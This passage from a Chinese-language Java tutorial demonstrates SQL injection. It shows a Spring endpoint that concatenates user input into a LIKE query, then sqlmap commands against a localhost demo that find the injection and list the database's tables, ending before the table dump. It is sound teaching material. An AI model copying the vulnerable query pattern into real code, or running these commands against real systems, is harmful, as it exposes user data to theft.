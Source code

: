 ```

//用户模糊搜索接口
@PostMapping("jdbcwrong")
public void jdbcwrong(@RequestParam("name") String name) {
    //采用拼接SQL的方式把姓名参数拼到LIKE子句中
    log.info("{}", jdbcTemplate.queryForList("SELECT id,name FROM userdata WHERE name LIKE '%" + name + "%'"));
}
```

使用sqlmap来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test
```

一段时间后，sqlmap给出了如下结果：

![](<https://static001.geekbang.org/resource/image/2f/59/2f8e8530dd0f76778c45333adfad5259.png?wh=2605*1316>)

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db
```

可以得到当前数据库是common\_mistakes：

```
current database: 'common_mistakes'
```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"
```

可以看到其中有一个敏感表userdata：

```
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+
```
